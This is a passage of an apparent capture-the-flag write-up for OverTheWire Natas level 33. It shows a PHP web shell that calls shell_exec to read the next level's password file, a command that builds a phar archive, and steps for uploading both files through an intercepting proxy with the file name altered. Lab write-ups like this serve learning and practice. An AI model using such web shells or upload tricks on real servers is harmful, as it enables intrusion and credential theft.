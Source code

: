 - Then create a `shell.php` file that will read the password.

  ```
  $ cat shell.php   
  <?php echo shell_exec('cat /etc/natas_webpass/natas34'); ?>
  ```

- Now use `php -d phar.readonly=false natas33.php` and you should have 3 files.

  ```
  $ php -d phar.readonly=false natas33.php

  $ ls
  natas33.php natas.phar shell.php
  ```

- Now, we are gonna start uploading them one by one. Start with `shell.php`. Upload the file, find the request in History and send it to Repeater, then change the file name back to `shell.php`.

  <img src="https://github.com/mauzware/OverTheWire-Natas/blob/main/natas33/shell.png"/>

- Then we do the same thing with the `natas.phar` file.
